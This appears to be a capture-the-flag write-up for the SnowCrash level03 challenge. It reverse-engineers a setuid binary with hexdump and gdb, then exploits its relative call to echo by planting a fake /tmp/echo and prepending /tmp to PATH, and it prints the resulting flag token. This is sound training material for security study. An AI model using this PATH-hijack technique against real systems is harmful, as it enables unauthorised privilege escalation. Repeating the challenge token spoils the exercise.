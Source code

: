 ## LEVEL 03

---

For this level we have in the `level03` repository a file named `level03`. This file is a ELF44 file. The first thing I do is `cat` this file to have so useful informations.

```shell
$ hexdump -C level03
[...]
000005e0  2f 75 73 72 2f 62 69 6e  2f 65 6e 76 20 65 63 68  |/usr/bin/env ech|
000005f0  6f 20 45 78 70 6c 6f 69  74 20 6d 65 00 00 00 00  |o Exploit me....|
[...]
00001020  00 00 00 00 47 43 43 3a  20 28 55 62 75 6e 74 75  |....GCC: (Ubuntu|
[...]
000012f0  5f 5f 75 69 64 5f 74 00  65 6e 76 70 00 2f 68 6f  |__uid_t.envp./ho|
00001300  6d 65 2f 75 73 65 72 2f  6c 65 76 65 6c 30 33 2f  |me/user/level03/|
00001310  6c 65 76 65 6c 30 33 2e  63 00 6c 6f 6e 67 20 6c  |level03.c.long l|
[...]
```

We hame few more informations now :
1. This file calls echo to print "Exploit Me".
2. This file has been compiled by GCC.
3. The source file was `/home/user/level03/level03.c`

Sadly our user doesn't have access to the source file.

I need to have for information about what `leve03` does for that I will use `gdb` which is a debugger and reverse engineering tool.

```shell
$ gdb -q level03
Reading symbols from /home/user/level03/level03...done.
(gdb) disas main
Dump of assembler code for function main:
   0x080484a4 <+0>:	 push   %ebp
   0x080484a5 <+1>:	 mov    %esp,%ebp
   0x080484a7 <+3>:	 and    $0xfffffff0,%esp
   0x080484aa <+6>:	 sub    $0x20,%esp
   0x080484ad <+9>:	 call   0x80483a0 <getegid@plt>
   0x080484b2 <+14>: mov    %eax,0x18(%esp)
   0x080484b6 <+18>: call   0x8048390 <geteuid@plt>
   0x080484bb <+23>: mov    %eax,0x1c(%esp)
   0x080484bf <+27>: mov    0x18(%esp),%eax
   0x080484c3 <+31>: mov    %eax,0x8(%esp)
   0x080484c7 <+35>: mov    0x18(%esp),%eax
   0x080484cb <+39>: mov    %eax,0x4(%esp)
   0x080484cf <+43>: mov    0x18(%esp),%eax
   0x080484d3 <+47>: mov    %eax,(%esp)
   0x080484d6 <+50>: call   0x80483e0 <setresgid@plt>
   0x080484db <+55>: mov    0x1c(%esp),%eax
   0x080484df <+59>: mov    %eax,0x8(%esp)
   0x080484e3 <+63>: mov    0x1c(%esp),%eax
   0x080484e7 <+67>: mov    %eax,0x4(%esp)
   0x080484eb <+71>: mov    0x1c(%esp),%eax
   0x080484ef <+75>: mov    %eax,(%esp)
   0x080484f2 <+78>: call   0x8048380 <setresuid@plt>
   0x080484f7 <+83>: movl   $0x80485e0,(%esp)
   0x080484fe <+90>: call   0x80483b0 <system@plt>
   0x08048503 <+95>: leave
   0x08048504 <+96>: ret
(gdb) x/s 0x80485e0
0x80485e0:	 "/usr/bin/env echo Exploit me"
```

Now I know that the program must have a line like this: `system("/usr/bin/env echo Exploit me")`

One more detail I found is that `level03` has `flag03` rights. So I need to change the line above to run the `getflag` command.

This command has a vulnerability because echo isn't called with a absolute path, so we can easily run the command we want with symlink and a PATH variable changed.

First I search the getflag executable path.
```shell
$ level03@SnowCrash:/tmp$ find / -name "*getflag*" 2>/dev/null
/bin/getflag
/rofs/bin/getflag
```

Then I create a file to execute getflag and give full rights to the file.
```shell
$ vim /tmp/echo
#!/bin/bash
/bin/getflag
$ chmod 777 /tmp/echo
```

And finally I change the PATH by adding the tmp path at the beginning and I run the command.
```shell
$ export PATH="/tmp:$PATH"
$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```


